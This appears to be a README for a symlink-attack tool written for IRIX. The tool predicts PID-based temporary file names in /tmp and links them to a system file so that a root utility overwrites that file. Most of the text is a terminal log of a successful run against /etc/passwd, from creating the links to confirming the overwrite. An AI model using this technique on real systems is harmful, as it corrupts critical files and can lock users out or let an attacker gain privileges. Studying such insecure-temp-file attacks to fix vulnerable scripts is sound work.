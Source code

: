 I've been looking around on my SGI Indy running IRIX 6.5.22 checking system utitlities for the use of /tmp.  I've noticed some scripts
using $$ to generate a unique file name in /tmp. I wrote this simple tool to generate links in /tmp in an attempt to clobber
files if the root user were to run any of the vulnerable utitliies.

This code creates an x number of symlinks using the pid in the filename in order to clobber system files by linking to them when programs use /tmp in an insecure manner. This isn't really a problem on modern day unixes.  I've developed and tested it on an SGI Indy R5000 running IRIX 6.5.22.  After running it monitors the target file's modification time to determine if the exploitation succeeded. 

`larry@mathom:~/code/symlinker$ ./symlink 10 to_dos /etc/passwd
Starting from our own process id: 259857
Symlinking /tmp/to_dos259857->/etc/passwd
Symlinking /tmp/to_dos259858->/etc/passwd
Symlinking /tmp/to_dos259859->/etc/passwd
Symlinking /tmp/to_dos259860->/etc/passwd
Symlinking /tmp/to_dos259861->/etc/passwd
Symlinking /tmp/to_dos259862->/etc/passwd
Symlinking /tmp/to_dos259863->/etc/passwd
Symlinking /tmp/to_dos259864->/etc/passwd
Symlinking /tmp/to_dos259865->/etc/passwd
Symlinking /tmp/to_dos259866->/etc/passwd
Symlinking /tmp/to_dos259867->/etc/passwd
Waiting on a write to one of our predicted links in /tmp or pid to grow past the links we created.
[+] The target file /etc/passwd has been over written!
[+] Modification time changed from Fri Oct 25 13:31:44 2019 to Sun Oct 27 02:39:16 2019

Cleaning up....
Unlinking -> /tmp/to_dos259867
Unlinking -> /tmp/to_dos259866
Unlinking -> /tmp/to_dos259865
Unlinking -> /tmp/to_dos259864
Unlinking -> /tmp/to_dos259863
Unlinking -> /tmp/to_dos259862
Unlinking -> /tmp/to_dos259861
Unlinking -> /tmp/to_dos259860
Unlinking -> /tmp/to_dos259859
Unlinking -> /tmp/to_dos259858
Unlinking -> /tmp/to_dos259857`
